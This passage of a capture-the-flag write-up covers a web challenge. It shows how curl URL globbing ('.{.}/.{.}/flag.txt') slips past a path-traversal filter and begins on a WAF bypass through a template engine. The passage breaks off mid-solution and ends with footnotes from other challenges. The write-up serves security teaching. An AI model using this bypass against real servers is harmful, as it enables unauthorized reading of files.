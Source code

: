 The goal is stealing a flag from `/flag.txt`.

### Solution

#### Step 1: path traversal

The server uses curl to read files:
```python
        proc = subprocess.run(
            ["curl", f"file://{os.getcwd()}/public/{filename}"],
            capture_output=True,
            timeout=1,
        )
```

Unfortunately, path traversal to `/flag.txt` is prevented:
```python
    if ".." in filename or "%" in filename:
        return "Do not try path traversal :("
```

By the way, curl has a feature of [URL globbing](https://everything.curl.dev/cmdline/globbing), and you can access multiple resources at the same time.
You can bypass the above defense using this feature:
```sh
$ http "http://localhost:3000/.{.}/.{.}/flag.txt"
HTTP/1.1 200 OK
Connection: close
Content-Length: 10
Content-Type: text/html; charset=utf-8
Date: Sat, 05 Nov 2022 12:09:18 GMT
Server: Werkzeug/2.2.2 Python/3.10.8

Try harder
```

However, the following WAF hides the flag response:
```python
@app.after_request
def waf(response: Response):
    if b"SECCON" in b"".join(response.response):
        return Response("Try harder")
    return response
```

#### Step 2: bypassing WAF

The server returns a response after the following process:
```python
    return template(proc.stdout.decode(), request.args)
```

The implementation of the template engine is as follows:
```python
def validate(key: str) -> bool:
    # E.g. key == "{name}" -> True
    #      key == "name"   -> False
    if len(key) == 0:
        return False
    is_valid = True
    for i, c in enumerate(key):
        if i == 0:
            is_valid &= c == "{"
        elif i == len(key) - 1:
            is_valid &= c == "}"
        else:
            is_valid &= c != "{" and c != "}"
    return is_valid
```

[^top-1]: Because of my lack of consideration, many players solved this challenge by unintended solutions :cry:
[^spanote-1]: In fact, you can skip this step because bfcache is disabled by [default options](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175) of puppeteer.
